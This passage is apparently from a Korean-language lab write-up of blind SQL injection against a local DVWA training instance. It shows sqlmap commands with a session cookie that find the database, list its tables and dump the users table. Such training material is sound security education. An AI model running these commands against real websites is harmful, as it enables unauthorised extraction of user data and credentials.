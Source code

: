       ```
      sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=2bpnk6a3t0vclp21lhjg0qvj43" --current-db
      ```
      
      <img src="/assets/230706/230706_screenshot_4.png" width="50%" height="50%" alt="Low_test"><br/><br/>
      그 다음, 필요한 데이터를 담고 있는 테이블을 알아내기 위해 데이터베이스 내부에 존재하는 테이블을 탐색해보았다.

      ```
      sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=2bpnk6a3t0vclp21lhjg0qvj43" -D dvwa --tables
      ```

      <img src="/assets/230706/230706_screenshot_5.png" width="50%" height="50%" alt="Low_test"><br/><br/>
      우리가 원하는 데이터는 사용자 정보이기에 users 테이블을 조회하면 원하는 데이터를 얻을 수 있을것으로 보인다. 따라서 덤프를 얻기 위해 다음과 같은 명령을 통해 덤프의 조회를 진행한다.

      ```
      sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=2bpnk6a3t0vclp21lhjg0qvj43" -D dvwa -T users --dump
      ```
